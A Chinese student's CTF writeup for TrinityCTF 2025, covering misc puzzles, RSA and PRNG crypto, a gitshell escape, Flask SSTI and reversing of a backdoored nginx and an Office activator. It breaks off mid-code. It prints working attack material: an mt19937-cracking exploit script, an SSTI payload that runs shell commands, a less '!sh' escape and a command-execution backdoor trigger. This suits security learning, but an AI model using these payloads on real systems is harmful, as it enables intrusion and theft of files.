# TrinityCTF 2025 Writeup

一个零 CTF 经验的大二老登参加了校内的面向新生的 CTF 比赛，

这是他的 Writeup 发生的变化：

<!-- more -->

---

## 🧩 MISC

### Misc01-CTF_101

> 欢迎参赛TrinityCTF!
>
> 作为一名参赛选手你首先需要看看靶场, 看看公告, 确保了解比赛规则详情!
>
> 善用互联网和工具, 希望你能在这场比赛中学习, 练习; 或是切身感受下CTF赛事的氛围与挑战
>
> 如果你发现你不会的还挺多, <del>那就对了</del> 我们每一名队员都是这么成长起来的, 赛后我们也会组织WP讲解, 欢迎来听 如果你发现你都会, 啊那太好了. 请在这场比赛尽情杀题<del>然后大佬带飞我们战队把😆</del>
>
> 最后祝各位解题顺利.

然后就要填 Flag 了，注意到在几天前发布的 TrinityCTF 2025 coming 赛事预告中有：

> 最后祝大家参赛愉快<del>ZmxhZ3toNHBweV9oNGNrMW41IX0=</del>取得好成绩

Base64 一下被划线的乱码得到 `flag{h4ppy_h4ck1n5!}`


### Misc02-搜打撤

提供了一个 py 文件和摩斯电码本，py 文件运行后是一个文字冒险游戏，在游玩过程中可以获得flag碎片，实际上可以直接翻 py 文件：

```python
WORK_SECRET = os.getenv('WORK_SECRET', 'dzBySw==')					# Base64: w0rK
COMBINE_SECRET = os.getenv('COMBINE_SECRET', 'YzBtYkluZSBhbDE=')	# Base64: c0mbIne al1
PASSWORD1 = os.getenv('PASSWORD1', 'TkpVZXI=')						# Base64: NJUer
PASSWORD2 = os.getenv('PASSWORD2', 'UEtVZXI=')						# Base64: PKUer
FLAG_SECRET = os.getenv('FLAG_SECRET', 'ZmxhZw==')					# Base64: flag
# 省略一部分内容...
def exit_gate():
    """校门撤离点"""
    print("祝贺你得到了想要的东西。按照通顺的语言习惯组合即可。不要忘记在单词之间加入短下划线_哦~")
    return 1
```

把三个 secret 按照语序拼接得到 `flag{c0mbIne_al1_w0rK}` （一开始我一直尝试把 `NJUer` 塞进去😰）


### Misc03-Watch the Star

提供了一个 `coords.txt` 记录了若干个点坐标，以及一个 `star.png` 绘制了部分点的位置和连线

```title="coords.txt"
6,43
7,43
8,43
9,43
10,43
11,43
12,43
13,43
# 省略更多的坐标点
```

用 matplotlib 库绘图，发现连线没有任何线索，但是点的排布很有意思（特别是↖↗↙三个角的暗示）



把点替换成大小为1的方格，删去连线，得到：



是个二维码，扫描得到 `flag:bWlzY19maW5pc2g=`， Base64 一下得到 `flag{misc_finish}`


### **Misc04-猫猫**（Unfinished）

图片里藏了一个 zip 文件用 binwalk 分离，压缩包里有 `flag.txt` 但是解压需要密码

对剩下的纯图片内容 zsteg 一下发现下面的内容：

```shell
imagedata           .. text: ".55/4.,-)"
b1,g,lsb,xy         .. text: "-M$ED%LtLm\\\\uT"
b1,b,lsb,xy         .. text: "5m,5$5l4ee}----("
b2,r,lsb,xy         .. text: "D@@EDkDD"
b2,rgb,lsb,xy       .. text: "L0DDTAA@E"
b2,rgb,msb,xy       .. text: "\n{<g[6e{"
b3,g,msb,xy         .. file: OpenPGP Secret Key
b4,r,lsb,xy         .. text: "2222\"2R2#5TTDDTTUETFfvvvvgvvvv"
b4,r,msb,xy         .. text: "];;;;;;{"
b4,g,lsb,xy         .. text: "223#323323ETTEUUTggTvvggvgwgvy"
b4,b,lsb,xy         .. text: "wvfgwvvfwv"
b4,rgb,lsb,xy       .. text: "A62s&3p5"
b4,rgb,msb,xy       .. text: ",Fb$Nb$N"
b4,bgr,lsb,xy       .. text: "QB63r6 s"
b4,bgr,msb,xy       .. text: "J&dB.dB."
```

不会解，遂放弃

（后记：压缩包的密码原来可以爆破）

（赛后官方 Sol 好魔幻）

### Misc05-填填问卷就能拿分谢谢喵

字面意思，这我还能说什么呢，太性情了哥们，flag 没保存所以不贴了

ps: 我拿的一血🤓

---

## 🔒 CRYPTO

### Crypto01-RSA (Unfinished)

一个菜单环境，提供了离线的 Python 搭建：

```python title="task.py"
from Crypto.Util.number import bytes_to_long
import os, signal
import utils

signal.alarm(600)								# 600s 的限时，也就是 TLE 机制（？
assert utils.PoW()								# 一个需要暴力算 sha256 的工作量证明
sec = os.urandom(16)

MENU = '''
[E]ncrypt
[G]etFlag
[Q]uit
'''
while True:
    print(MENU)
    inp = input(">").lower()
    try:
        if inp == "q":							# q 键退出
            raise Exception

        elif inp == "e":						# e 键会提供一个用相同的公钥指数 e=4027 和明文，用不同的模数加密的结果
            rsa = utils.RSA(nbits=1024)
            c = rsa.encrypt(bytes_to_long(sec))
            print(f"{rsa.pub = }\n{c = }")

        elif inp == "g":						# g 键用解出的明文换取 flag
            assert sec == bytes.fromhex(input("sec>").strip())
            utils.solve()
            raise Exception

    except:
        break
```

赛时考虑使用 **Håstad广播攻击**，需要收集 4097 组数据但是被 600s 时限卡住了（600s 只能收集 1k 组不到的数据，而 1k 组数据破解的概率太低了），遂 giveup


**Crypto02-PQC**  和 **Crypto03-ECC** 都没碰，不会离散数学


### Crypto04-PRNG

四道 Crypto 的环境搭建都是相似的：

```python title="task.py"
import signal
import utils

signal.alarm(600)
assert utils.PoW()

casino = utils.CASINO()											# 构建了一个 casino 猜数游戏
																# 初始有一定的分数
MENU = '''
[R]efresh
[H]it
[S]tand
[Q]uit
'''
while True:
    print(MENU)
    inp = input(">").lower()
    try:
        if inp == "q":											# q 键退出游戏
            raise Exception
        
        elif inp == "r":										# r 键重置游戏
            casino.refresh()

        elif inp == "h":										# h 键进行猜数，要猜的数是随机数
            card = casino.card()
            if (card & 0xFFFF) == int(input("check>")):
                casino.score += 1								# 猜对了加一分
                print("Positive")
            else:
                casino.score -= 2								# 猜错了扣两分
                print("Negative")
                print(f"{card = }")								# 并且会告知正确的数是什么

        elif inp == "s":										# 在得分 ≥ 9999 时按下 s 键获得 Flag
            assert casino.score >= 9999
            utils.solve()
            raise Exception

        assert casino.score > 0									# 分数归零时退出游戏
    except:
        break
```

目前掌握的信息不够，所以我们需要在另一个下发的文件中获取更多信息：

```python title="utils.py（节选）"
class CASINO:
    def __init__(self):											# 初始化
        self.key = os.urandom(16)								# 生成一个密钥 key
        self.rng = random.Random()								# 创建一个随机数生成器
        self.refresh()											# 进行一次刷新操作

    def refresh(self):											# 刷新操作
        seed = int(pow(time.time(), 0.93))						# 基于当前时间的种子 seed（一个伏笔）
        self.rng.seed(bytes_to_long(self.key) + seed)			# 随机数生成器基于 key + seed 生成新的生成器种子
        self.score = 0x4c4										# 初始分数为 610 * 2 分
    
    def card(self):												# 发牌操作
        return self.rng.getrandbits(32)							# 利用随机数生成器生成一个 32 位随机数
```

`random.Random()` 说明程序使用了 Python 自带了的随机数计算：伪随机数生成器 mt19937。

这个随机数算法对于相同的种子总会给出相同的输出结果，且算法上可以逆向实现随机数预测，前提是先要获取**连续的 624 个 32 位**的已生成的随机数（这么多的数据足够找到循环点），这里考虑使用 `randcrack` 库

然而，初始分数 `610 * 2` ，但是 624 次错误的猜数会扣除 `624 * 2` 的分数，所以我没有办法连续猜错 624 次，必须要猜对若干次

在观察了四道 Crypto 题目的框架后，我发现只有第四题提供了重置操作 `r`。为什么要提供一个 `r` 键重置？虽然 `r` 键可以重置得分，但是也会重置 `self.rng.seed`，也就是随机数生成器的种子，看上去 `r` 操作没有作用

> 除非 `r` 操作并不是一定会重置随机数生成器的种子？

仔细看一下随机数生成器的种子是如何被计算的：

```python
seed = int(pow(time.time(), 0.93))				# (int)(时间戳 ^ 0.93)
self.rng.seed(bytes_to_long(self.key) + seed)	# key + seed，其中 key 不会随着 r 操作改变，改变 seed
```

对于 `(int)(时间戳 ^ 0.93)` 这一步，我们不难发现，当两个时间戳非常接近时，计算得到的种子是完全相同的

> 比如我现在查询时间戳得到的数值是 `1759734250`，不难计算
>
> `(int)1759734250^0.93 == (int)1759734252^0.93 == 396520633`，得到了 3s 的窗口期
>
> 如果刷新的时间恰当，**最大可以争取约 5s 的窗口期**，这段时间内的 `r` 刷新操作不会改变 `seed` 值

于是我们得到了一个自动化方案：

1. 解决 PoW 问题（写一段暴力计算的程序即可）
2. 先答错获取前十个随机数，保存（这里的十次实际上可以更少一些，这取决于网速）
3. `r` 刷新一次
4. 用之前获取的前十个随机数去回答前十次猜数问题（不会扣分，而且会加分）
5. 继续猜错直到获取了 624 个随机数（可以保证分数不会减到 0 以下）
6. 现在 mt19937 的随机数可以完全预测了，持续猜对数字直到分数超过 9999
7. `s` 获取 Flag！

用 AI 辅助写了一段自动化的 Python 程序（<del>我不会 Python</del>）

```python title="exp.py"
import hashlib
import string
import itertools
from pwn import *
from randcrack import RandCrack

def solve_pow(prefix, target_hash, length=4):
    # 爆破 XXXX
    for comb in itertools.product(string.ascii_letters + string.digits, repeat=length):
        attempt = ''.join(comb)
        h = hashlib.sha256((attempt + prefix).encode()).hexdigest()
        if h == target_hash:
            return attempt
    return None

def main():
    # 连接信息：
    # xxx.xxx.xxx.xx:xxxxx
    host = '123.456.789.01'
    port = 12345

    # 第一步：接收 PoW 题目
    r = remote(host, port)
    line = r.recvuntil(b'= ').decode()
    target_hash = r.recvline().strip().decode()
    prefix = line.split('+')[1].split(')')[0]  # 提取 iMwfwaWvfBil7B9S 这样的后缀
    print(f"PoW: sha256(XXXX+{prefix}) = {target_hash}")

    # 爆破 PoW
    pow_sol = solve_pow(prefix, target_hash)
    if pow_sol is None:
        print("PoW failed")
        return
    print(f"PoW solution: {pow_sol}")
    r.sendlineafter(b'>', pow_sol.encode())

    # 进入主循环
    rc = RandCrack()

    # 第一阶段：收集前10个随机数
    first_10_cards = []
    for i in range(10):
        r.sendlineafter(b'>', b'H')
        # 猜错（输入 0 ）
        r.sendlineafter(b'check>', b'0')
        resp = r.recvline()
        if b'Negative' in resp:
            line = r.recvline()
            # 解析 card = 12345678
            card_val = int(line.decode().split('=')[1].strip())
            print(f"[{i+1}] card = {card_val}")
            first_10_cards.append(card_val)
        else:
            # 前十次都有猜对的，你应该去买彩票，你不准做题了
            return

    # r 重置
    r.sendlineafter(b'>', b'R')

    # 第二阶段：重新收集624个随机数，前10次用已知的正确值猜测
    score = 610 * 2  # 初始分数
    
    # 前10次使用已知的正确值
    for i in range(10):
        r.sendlineafter(b'>', b'H')
        # 使用之前收集到的正确低16位
        correct_low16 = first_10_cards[i] & 0xFFFF
        r.sendlineafter(b'check>', str(correct_low16).encode())
        resp = r.recvline()
        if b'Positive' in resp:
            score += 1
            print(f"[{i+1}] Correct guess! Score: {score}")
            # 提交给 RandCrack（32 位）
            rc.submit(first_10_cards[i] & 0xFFFFFFFF)
        else:
            # 网速较差/时间窗口没卡好
            score -= 2
            print(f"[{i+1}] Unexpected Negative!")
            return

    # 继续收集剩余的614个随机数
    for i in range(10, 624):
        r.sendlineafter(b'>', b'H')
        # 猜错（输入 0）
        r.sendlineafter(b'check>', b'0')
        resp = r.recvline()
        if b'Negative' in resp:
            score -= 2
            line = r.recvline()
            # 解析 card = xxxxxxxx
            card_val = int(line.decode().split('=')[1].strip())
            print(f"[{i+1}] card = {card_val}")
            # 提交给 RandCrack（32 位）
            rc.submit(card_val & 0xFFFFFFFF)
        else:
            # 你知道我要说什么
            return

    # 第三阶段：全部猜对直到分数足够
    while score < 9999:
        # 预测下一个随机数
        predicted = rc.predict_getrandbits(32)
        low16 = predicted & 0xFFFF

        r.sendlineafter(b'>', b'H')
        r.sendlineafter(b'check>', str(low16).encode())
        resp = r.recvline()
        if b'Positive' in resp:
            score += 1
            print(f"Score: {score}")
        else:
            score -= 2
            print(f"Wrong prediction! Score: {score}")
            # 应该不会出错
            if score <= 0:
                print("Score <= 0, failed")
                return

    # 分数达到 9999，Stand
    r.sendlineafter(b'>', b'S')
    Flag = r.recvline()
    print(Flag)
    r.close()

if __name__ == '__main__':
    main()
```

跑一遍程序即可拿到 Flag: `flag{303191d0-227d-440d-8cf6-7a45f378757e}` 

（个人建议把 600s 时限放宽一点，我一开始连接的校内 VPN 在得到两千多分的时候就超时退出了😡）


### Crypto05-EZRSA

提供了一个 Python 文件，<del>翻代码发现 flag = b"flag{GUESS_ME_DUDE???}"，结束本题</del>

末尾注释提供了一些 RSA 相关的数据：

```c
n = 1761136274297027039963230651989531722606611852591964400481006338727378865369012452786479495394114231817718239
e = 65537
c = 1230891216923086590416832066481981391436300928059089913296665775664238914246508186217218568669712406212992089
```

我们需要拆解 `n` 这个大数（`n = p * q`），而不幸的是 factordb 拆不开这个数，注意到提供的代码中有这样的生成操作

```python
p_bits = 180  										# p 是 180 位的数字
close_offset_max = 1 << 20

low = 1 << (p_bits - 1)
high = (1 << p_bits) - 1

a = random.randrange(low, high)						
p = next_prime(a)									# 生成 180 位的随机素数 p
offset = random.randint(1000, close_offset_max)		# 生成一个偏移量，在 1000 ~ 2^20 之间
q = next_prime(p + offset)							# p 加上偏移量后调整生成素数 q
if p == q:
    continue

n = p * q
```

也就是说 `p,q` 的位数大致固定，且 `q - p` 差值比较小，考虑使用 Fermat 质数分解算法：

```python
def fermat_factorization(n):
    a = gmpy2.isqrt(n)
    while True:
        b2 = a * a - n
        if gmpy2.is_square(b2):
            b = gmpy2.isqrt(b2)
            p = a - b
            q = a + b
            return int(p), int(q)
        a += 1
```

带入到具体数据跑一遍程序就可以拿到 Flag：`flag{RSA_is_weak_when_p_approx_q}`，Flag 说得对

---

## 💥 PWN

PWN 题我都不会写，对不起出题者😭

(Update: 网络攻防实战课程学到了 PWN，应该不至于一点不会了)

---

## 🕸️ WEB

### Web01-逃离

> 在一次渗透测试中，你通过一个文件读取漏洞得到了用户名 git 的 SSH 私钥
> 使用给定的 SSH 私钥和用户名 git 登录指定的地址，从 Gitshell 里逃离
>
> flag 在 /home/git 下

目标是从高度受限的 Gitshell 环境中想办法来到普通 Shell 环境中，读取 `/home/git` 的内容

先用 SSH 试探一下（`id_rsa` 是下发的私钥文件）：

```shell
> ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345
fatal: unrecognized command ''
Connection to xxx.xxx.xxx.xx closed.
```

坏透了，这个 Git 服务器不允许交互式输入指令，我只能在 SSH 请求时附带我的指令：

```shell
> ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "help"
fatal: unrecognized command 'help'
```

`help` 都不能用？经过测试和查询，只有 `git receive-pack` `git upload-pack` `git upload-archive` 可以使用，那就找个仓库上传些什么东西做个手脚：

```shell
> ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "git upload-pack '/home/git'"
fatal: '/home/git' does not appear to be a git repository
```

又经过测试，这个环境里面没有 git 仓库（至少我没找到），我决定 `--help` 一下

```shell
> ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "git upload-pack '--help'"
GIT-UPLOAD-PACK(1)                Git Manual                GIT-UPLOAD-PACK(1)

NAME
       git-upload-pack - Send objects packed back to git-fetch-pack

SYNOPSIS
       git-upload-pack [--[no-]strict] [--timeout=<n>] [--stateless-rpc]
                         [--advertise-refs] <directory>
       DESCRIPTION

       # ... 太多了不贴了

SEE ALSO
       gitnamespaces(7)

GIT
       Part of the git(1) suite

Git 2.12.2                        12/25/2020                GIT-UPLOAD-PACK(1)
> # 直接退出 SSH 连接了
```

<del>这是我目前成功运行的唯一一条指令</del>，输出页面让我想到了 `man` 指令，印象里帮助页面应该用 `less` 分页器打开，而 `less` 分页器 有 `!sh` 的操作可以打开子 `shell` 实现逃逸。查询得知需要在 SSH 连接时加上 `-t` 参数强制分配伪终端：

```shell
> ssh -t -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "git upload-pack '--help'"
# 用 less 打开了帮助文档，输入 !sh 进入子 shell
$ cat /home/git/flag.txt
Trinity{GIT_5HE11_byp@ss_OOOOO_060524592cce19c7}$
```

获得了 Flag `Trinity{GIT_5HE11_byp@ss_OOOOO_060524592cce19c7}`


**Web02-逻辑鬼才** 没有进展，不懂 HTTPDigestAuth :(

### Web03-Hello Flask!

> 我学会的第一行代码就是`cout<<"Hello Flask!"<<endl;`
>
> flag 在 /etc/flag.txt
>
> 访问：`http://ip:port/?name=123`

先按照他说的访问一下 `http://ip:port/?name=123`，HTML 页面只有一句 *Hello 123*

STFW 了解到 Flask 是 Python 的 Web 框架，使用 Jinja 模板引擎，又不小心搜到了 [SSTI注入 - Hello CTF](https://hello-ctf.com/hc-web/ssti/) 了解了一下

> *一般我们会在疑似的地方尝试插入简单的模板表达式，如 `{{7*7}}` `{{config}}`，看看是否能在页面上显示预期结果，以此确定是否有注入点。*

插入一下试试： `http://ip:port/?name={{7*7}}`，HTML 页面输出 *Hello 49*，看来有注入点

经过和 AI 的反复修改后得到了下面的模板：

```python
{{cycler.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/flag.txt').read()}}
# 从 cycler 对象开始（Jinja2模板的默认对象），通过 __init__ 获取初始化方法， __globals__ 获取全局命名空间， __builtins__ 获取内置函数， __import__('os') 导入os模块，最终调用 popen() 执行系统命令，read() 进行读取，输出在 HTML 页面上
```

得到 Flag `Trinity{ssti_is_Funnnnnny!422144319e480db2}`

---

## 🔍 RE

### RE01-带后门的nginx

> **描述：** xx大学近日遭受一起 APT 攻击：黑客组织通过购买搜索引擎推广，将其精心伪造的 nginx 官网置于搜索结果首位。某运维人员因而下载了该网站上被植入后门的 nginx。服务上线后，黑客组织通过该后门长期隐蔽地从内网盗取信息。你的任务是通过逆向工程找到该后门的访问方式，并复现该后门来读取服务后台的 flag。
>
> 该后门为命令执行后门，并被符合要求的 HTTP 请求触发。找到触发方式后，你可以构造任意命令。
>
> 读取 flag 可以使用反弹 shell，也可以把 flag 文件拷贝到网站根目录。其中 flag 位于 /flag，nginx 网站位于 /nginx/html。

下发了一个 `nginx` 文件，使用 DIE 检测为 `ELF64` ，使用 Ghidra 进行逆向，分析逆向内容。

因为我不熟悉 nginx 反编译后的内容，偶然搜索了一下含 "flag" 的字符串



找到了这个有趣的内容：

```assembly
                             s_This_is_a_fake_flag!_001b8f5c                 XREF[3]:     ngx_http_static_handler:0018a078
                                                                                         ngx_http_static_handler:0018a087
                                                                                          001dd540 (*)   
        001b8f5c 54  68  69       ds         "This_is_a_fake_flag!"
                 73  5f  69 
                 73  5f  61 

```

我相信假 flag 不可能一点用都没有，于是定位到调用了这部分字符串的函数 `ngx_http_static_handler`，下面截取了有用的内容：

```cpp
__s = g_flag;	// g_flag 的内容就是 "This_is_a_fake_flag!"

// 将 password 硬编码为神秘值，然后与 g_flag 进行异或运算（解密）得到新的 password
builtin_memcpy(password,"#1\x03\x17.\x10\n\x135/\x16$\r6<\x0e ,\x13F",0x14);
for (uVar16 = 0; sVar4 = strlen(__s), uVar16 < sVar4; uVar16 = uVar16 + 1) {
  password[uVar16] = password[uVar16] ^ __s[uVar16];
}
nVar5 = ngx_http_arg(r,password,uVar16,&arg_value);				// 从HTTP请求中获取 password 这个参数
																// 返回 0 表示找到了这个参数
if ((nVar5 == 0) && (arg_value.len - 1 < 0x3ff)) {
    _Var2 = fork();
    if (_Var2 == 0) {
        // 子进程执行
        iVar3 = getrlimit64(RLIMIT_NOFILE,(rlimit64 *)&rlim);
        // 关闭所有文件描述符
        for (; __fd < iVar18; __fd = __fd + 1) {
            close(__fd);
        }
        // 执行系统命令，也就是说我可以构造 http://ip:port/?password=cp /flag /nginx/html/flag.txt
        // 把 flag 文件拷贝到网站根目录
        execl("/bin/sh","sh",&DAT_001b8f1b,local_528,0);
        exit(0x7f);
    }
}
```

对 ` "#1\x03\x17.\x10\n\x135/\x16$\r6<\x0e ,\x13F"` 与 `"This_is_a_fake_flag!"` 进行异或解密得到 `password = wYjdqyyLTppEfSchLMtg`

先 `http://ip:port/?wYjdqyyLTppEfSchLMtg=cp /flag /nginx/html/flag.txt` 把 flag 文件拷贝到网站根目录，然后 `http://ip:port/flag.txt` 就能获得 Flag: `flag{17a7f10e-f07c-4e3f-a080-8b91d94245b4}`


### RE02-ITSC正版Office激活工具

> **描述：** 这是xx大学 ITSC 的会员制 Office 激活工具，必须每个月上交 114514 块钱网费才能获得激活码。你的任务是通过逆向工程破解该工具，找到激活码的生成方式，并生成用户 `itsc` 的激活码。
>
> 获得激活码后，在外面包裹 `flag{}` 提交，如激活码是 `0123456789abcdef`，则提交 `flag{0123456789abcdef}`。

<del>我已经等不及了，快点端上来罢</del>

下发了一个 `OfficeActivationTool.exe` 和一堆 Qt6 的依赖，不需要用 DIE 分析了

打开 exe 文件弹出一个激活窗口：



注意到按下按钮之后弹出 “激活失败” 的回答，考虑计算激活码的函数出现在 “按下按钮” ，用 Ghidra 进行逆向，关键词 `click` 搜索



对 `on_activationButton_clicked` 函数进行分析，节选了部分内容：

（Qt对应的反汇编内容易读性相比上一题更好一些）

```c++
// 激活码必须是32位十六进制字符
local_128.m_data = "^[0-9a-fA-F]*$";
local_128.m_size = 0xe;
QString::fromUtf8(&local_68);
QRegularExpression::QRegularExpression(&hexCodePattern,&local_68,0);

// 账户名必须只能包含字母/数字/下划线且不以数字开头
local_128.m_size = 0x18;
local_128.m_data = "^[_a-zA-Z][_0-9a-zA-Z]*$";
QString::fromUtf8(&local_68);
QRegularExpression::QRegularExpression(&accountPattern,&local_68,0);

// 检查激活码格式
if (((cVar3 != '\0') && (codeText.d.size == 0x20)) && (accountText.d.size != 0)) {
    // 为账户名添加了固定的后缀
    local_130 = 0xb;
    local_138 = "@nju.edu.cn";
    QString::append(&accountText,&local_138);					// append
    // 激活码十六进制转字节数组
    QString::toUtf8_helper(&local_88);							// to utf8
    QByteArray::fromHex((QByteArray *)&local_68);				// from hex
    // 对添加后缀之后的账户名进行哈希计算，Qt的哈希加密默认为 md5
    QString::toUtf8_helper(&local_88);
    local_128.m_size = local_88.d.size;
    local_128.m_data = (storage_type *)local_88.d.ptr;
    QCryptographicHash::hash(&local_68,(Algorithm)&local_128);	// hash
    // 比较哈希结果与激活码
    local_128.m_data = local_68.m_data;
    local_128.m_size = local_58;
    local_148.m_size = qVar2;
    local_148.m_data = psVar1;
    iVar4 = QtPrivate::compareMemory(&local_128,&local_148);	// compareMemory
    if (iVar4 == 0) {
        pQVar5 = *(QString **)(this->ui + 0x58);
        QString::QString((QString *)&local_68,(QChar *)&DAT_140006196,4); // "成功"
        QLabel::setText(pQVar5);
        this->activated = true;
    } else {
        pQVar5 = *(QString **)(this->ui + 0x58);
